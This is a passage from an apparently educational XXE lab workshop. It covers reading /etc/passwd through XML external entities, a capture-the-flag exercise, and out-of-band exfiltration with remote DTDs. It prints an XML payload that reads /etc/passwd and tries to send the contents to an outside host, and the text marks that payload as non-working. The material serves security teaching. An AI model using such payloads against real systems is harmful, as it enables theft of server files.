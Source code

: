 ![Preview website](assets/exercise1/image10.png)

As a result, we can see the content of the file `/etc/passwd` in the response.

![Preview website](assets/exercise1/image11.png)

In the source, we can see more easily the content of the file with new lines.

![Preview website](assets/exercise1/image12.png)

Positive
: To complete this exercise, load the file  `/secret/flag.txt`.















## Exfiltration with remote DTD
Duration: 00:05:00

### Out-of-band Exfiltration

XML parsing remotely will not always return content directly. If you are uploading a document such as a data file (`.xml`) or a MS Office document (`.docx`), you might not receive the content parse from those documents.

We need to find a way exfiltrate data **during** the parsing. Unfortunately, it is not possible refer to an entity from another entity *in the same DOCTYPE*. This limitation comes from the way XML parsers interpret the document.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [ 
 <!ENTITY file SYSTEM "file:///etc/passwd">
 <!ENTITY notworking SYSTEM "http://xxe.me/&file;">
]>
<data></data>
```
*This payload will not work*

A workaround for this limitation was discovered by researchers [Alexey Osipov and Timur Yunusov](https://www.youtube.com/watch?v=eBm0YhBrT_c#t=11m51) that allow the construction of URL with data coming from other entities. The first version of this payload uses the Gopher protocol.


![XXE Gopher exfiltration](assets/out-of-bound/external_dtd.gif)

Negative
: In practice, the previous technique is not perfect. Any file with XML incompatible characters (`&`, `\n`, `\x80`, etc) would break the URL. The `/etc/issue` is one of the rare file safe to include.
